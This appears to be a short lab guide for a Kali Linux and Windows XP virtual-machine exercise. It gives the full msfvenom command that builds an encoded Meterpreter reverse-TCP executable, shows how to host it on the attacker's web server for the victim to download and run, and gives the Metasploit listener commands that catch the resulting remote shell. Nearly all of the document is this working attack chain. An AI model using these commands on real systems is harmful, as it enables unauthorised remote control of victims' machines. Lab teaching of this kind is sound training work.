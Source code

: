 **1. Components Required:**

- **Kali Linux** (attacker machine)
- **Windows XP** (target machine)

**2. Network Configuration:**

1. Configure both **Kali Linux** and **Windows XP** VMs to use **NAT Network** mode.
2. Verify connectivity using the `ping` command.

---

**Step 1: Generate Payload on Kali Linux**

1. Run **msfvenom** to create the payload:
    
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=<Kali_IP> LPORT=4000 -f exe > sunbeam.exe
    ```
2. Copy this file in the `/var/www/html` directory so that you can download and run it on the Windows machine when you access the website.
	```bash
		sudo cp sunbeam.exe /var/www/html
	```

**Note**: Make sure that you change the name of `index.html` to something else like `index2.html` in order to access the `sunbeam.exe` file.

**Step 2: Set Up Listener on Kali Linux**

1. Open **Metasploit Framework**:
    ```bash
    msfconsole
    ```
2. Set up the listener:
    ```bash
    use multi/handler
    set payload windows/meterpreter/reverse_tcp
    set LHOST <Kali_IP>
    set LPORT 4000
    exploit
    ```
**Step 3: Running the file on Windows XP**

1. Try to access the web server from the `Kali Linux IP`:
```bash
	http://<Kali_IP>
```
2. You will be able to see the `sunbeam.exe` file here.
3. Click on the file and run it.

**Step 4: Access the Windows XP on Kali Linux**

1. Now you will be able to access the Windows XP from your Kali Linux.
2. Try using different commands on the console to access the Windows.

---
